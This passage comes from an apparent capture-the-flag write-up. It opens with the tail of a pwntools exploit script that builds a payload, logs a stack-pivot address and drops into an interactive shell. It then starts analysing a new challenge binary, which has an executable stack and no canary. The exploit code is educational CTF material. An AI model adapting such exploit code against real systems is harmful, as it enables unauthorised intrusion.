 ```python
            dataOffset=66,
            RasterData=payload
    ))

    io = initialize()

    log.success("pivot: %#x", pivot)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

## yqroo wants a job

### Analysis

we're given another binary this time with no source code

```python
└──╼ [★]$ file vuln 
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
└──╼ [★]$ pwn checksec vuln 
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
```

the binary itself is made out of assembly

<figure><img src="../../.gitbook/assets/image (229).png" alt="" width="563"><figcaption></figcaption></figure>
